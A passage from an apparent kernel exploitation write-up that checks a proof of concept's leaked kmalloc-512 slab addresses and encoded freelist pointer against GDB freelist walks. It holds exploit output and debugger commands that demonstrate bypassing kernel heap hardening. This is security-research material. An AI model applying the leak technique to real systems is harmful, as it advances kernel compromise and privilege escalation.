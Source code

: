 ```
Freelist pointer: 0xffff88800a6d7600
Freelist pointer: 0xffff88800a6d6800
Freelist count: 16
(gdb) 
```

Extracting the addresses from the proof of concept's output and the GDB commands above, and ordering them, we can confirm that the addresses printed out by the proof of concept are the same as the slab currently in use on the CPU of the `kmalloc-512` cache. This demonstrates that the proof of concept obtained the proper addresses.

```
$ cat exploit_output.txt

Leaked encoded freelist null pointer: 0xacbd5e2efdd98930

slab[0] =   0xffff88800a6d6000
slab[1] =   0xffff88800a6d6200
slab[2] =   0xffff88800a6d6400
slab[3] =   0xffff88800a6d6600
slab[4] =   0xffff88800a6d6800
slab[5] =   0xffff88800a6d6a00
slab[6] =   0xffff88800a6d6c00
slab[7] =   0xffff88800a6d6e00
slab[8] =   0xffff88800a6d7000
slab[9] =   0xffff88800a6d7200
slab[10] =  0xffff88800a6d7400
slab[11] =  0xffff88800a6d7600
slab[12] =  0xffff88800a6d7800
slab[13] =  0xffff88800a6d7a00
slab[14] =  0xffff88800a6d7c00
slab[15] =  0xffff88800a6d7e00

$ cat exploit_output.txt | grep slab | awk '{print $3}' | sort -b > exploit_output_filtered_sorted.txt
$ cat debugger_output.txt
(gdb) slabcaches "kmalloc-512"
Object:         0xffff888004441a00
Name:           kmalloc-512
Size:           512
Object size:    512
Offset:         256
Refcount:       -1
Ctor:           (nil)
Inuse:          512
Align:          512
Random:         0xed00d622dd756e02
CPU slab:       0x39140
CPU partial:    52
Flags:          0x40001000
Min partial:    5
Alloc flags:    0x40000
List:           0xffff888004441a68
Node:           0xffff888004441ad8
(gdb) printkmemcachecpu 0 0x39140
Object:         0xffff88806f039140
Freelist:       0xffff88800a6d6200
TID:            1260601344
Slab:           0xffffea000029b580
Partial:        0xffffea00001e0100
(gdb) freelistwalk 0xffff88800a6d6200 256 0xacd433247d5177a4
Freelist pointer: 0xffff88800a6d6200
Freelist pointer: 0xffff88800a6d7800
Freelist pointer: 0xffff88800a6d6600
```